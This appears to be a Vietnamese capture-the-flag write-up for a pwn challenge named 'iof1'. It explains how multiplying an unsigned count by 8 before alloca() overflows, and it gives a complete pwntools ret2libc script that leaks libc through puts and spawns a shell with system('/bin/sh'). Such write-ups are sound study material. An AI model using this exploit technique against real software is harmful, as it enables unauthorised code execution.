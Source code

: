 <details>
<summary>IOF1 </summary>


**1. Tóm tắt đề:**

- Một file `iof1`
- Một file `ld-2.31.so`
- Một file `libc.so.6`
- Một file `source.c`

**2. Ý tưởng :**

- Đầu tiên ta sài `pwninit` để link với `libc` và `linker` đề cho
- Tiếp theo ta đọc source.f

![](https://i.imgur.com/4DzdGRt.png)

- Đề tạo biến `n` thuộc kiểu `unsigned long int`, sau đó gọi hàm `alloca()` để tạo buffer trên stack kế tiếp gọi hàm `read_str` để ghi vào buffer.
- Kế tiếp ta `checksec` để tìm hướng giải. Nhận thấy NX enable, PIE và Canary đều tắt do đó bài này mình thấy chỉ có giải bằng ret2libc

![](https://i.imgur.com/5O0tnvD.png)

- Để ret2libc thì hướng duy nhất là phải cho phải overflow `buffer` bằng hàm `read_str`. Cách duy nhất để thực hiện là phải sài int overflow `n*8 ` ở hàm `alloca`
- Ta check thử manpage của alloca coi argument của nó nhận range là bao nhiêu để overflow cho đúng

![](https://i.imgur.com/H2lG0wy.png)

- Argument của nó thuộc kiểu `size_t`, ta google tiếp xem size_t là gì thì biết được nó đại khái đại diện cho kiểu dữ liệu lớn nhất mà máy mình chịu được. Vậy `size_t` là 8 byte đối với máy 64 bit (số không dấu)

![](https://i.imgur.com/3Nwi2pH.png)


- Kế tiếp ta tìm range của `unsigned long int ` cũng như range của số 8 byte không dấu, lên document đọc thì ta được thông tin như sau : 

![](https://i.imgur.com/JZJIo3E.png)

- Để biết chính xác mình viết code test trên máy mình. 

![](https://i.imgur.com/eRRubsM.png)

- Vậy nếu ta nhập n lớn hơn số trên thì sẽ bị overflow. Argument của hàm alloca() chỉ nhận 8 byte do đó nếu ta nhập n sao cho khi nhân 8 mà kết quả lớn hơn 8 byte thì nó chỉ nhận 8 byte cuối. Ta sẽ lợi dụng nó để overflow.
- Giả sử mình muốn kết quả của `n*8` là `0x10000000000000008` (mình chọn số này vì nó là số nhỏ nhất khi bị overflow mà chia hết cho 8, chọn khác cũng được) khi đó bị overflow hàm `alloca` sẽ nhận `0x0000000000000008` vậy ta chia 8 để biết n cần nhập là bao nhiêu. Tính đúng ta được kết quả là `0x2000000000000000` tức là `2305843009213693952`.
- Vậy kế tiếp ta chỉ cần viết script để ret2libc.
```python
from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

p = process(exe.path) 
p.sendlineafter(b'> ',b'2305843009213693952')

pop_rdi = 0x00000000004013e3 
payload = b'A'*40 +  p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'])
p.sendlineafter(b'Enter your secret: ',payload) 
leak = p.readline()[:-1]
leak = u64(leak.ljust(8,b'\00'))

libc.address = leak - 492448 
p.sendlineafter(b'> ',b'2305843009213693952')

payload = b'A'*40 + p64(pop_rdi)+ p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system']) 
p.sendlineafter(b'Enter your secret: ',payload) 
p.interactive() 
```

- Chạy script trên ta có được shell.

</details>

